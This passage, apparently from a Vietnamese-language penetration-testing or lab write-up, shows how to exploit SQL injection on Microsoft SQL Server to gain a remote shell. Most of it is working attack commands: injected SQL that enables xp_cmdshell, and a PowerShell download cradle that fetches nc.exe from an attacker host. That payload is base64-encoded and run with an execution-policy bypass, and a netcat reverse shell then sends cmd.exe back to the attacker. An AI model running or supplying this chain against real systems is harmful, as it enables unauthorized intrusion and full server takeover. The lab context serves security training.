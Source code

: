 2. Bật **xp_cmdshell**:
   ```sql
   ';exec sp_configure 'xp_cmdshell','1';reconfigure;--
   ```

3. Kiểm tra hoạt động của **xp_cmdshell**:
   ```sql
   ';exec xp_cmdshell 'ping /n 4 192.168.43.164';--
   ```

- **Kết quả:**
  - Nếu thấy các gói **ICMP request/reply** trong **tcpdump**, **xp_cmdshell** đã được kích hoạt thành công.

---

### **3. Thiết lập Reverse Shell**

#### **Mục tiêu:**
Thiết lập một kết nối ngược (reverse shell) từ máy chủ đến máy tấn công.

#### **Quy trình:**

1. **Tải xuống `nc.exe` trên máy chủ mục tiêu:**
   - **Payload tải xuống:**
     ```powershell
     (new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\tasks\nc.exe");
     ```
   - **Encode payload bằng UTF-16LE và Base64:**
     ```bash
     python3 -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\tasks\nc.exe");""").encode("utf-16-le")).decode())'
     ```
   - **Output mã hóa:**
     ```plaintext
     KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMwAuADEANgA0AC8AbgBjAC4AZQB4AGUAIgAsACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABhAHMAawBzAFwAbgBjAC4AZQB4AGUAIgApADsA
     ```

2. **Thực thi lệnh tải xuống `nc.exe`:**
   ```sql
   exec xp_cmdshell 'powershell -exec bypass -enc KABuAGUAdw...'
   ```

3. **Kết nối reverse shell:**
   - **Payload thiết lập kết nối:**
     ```powershell
     c:\windows\tasks\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe
     ```
   - **Encode payload tương tự như trên.**
   - **Thực thi qua xp_cmdshell:**
     ```sql
     exec xp_cmdshell 'powershell -exec bypass -enc KABuAGUAdw...'
     ```
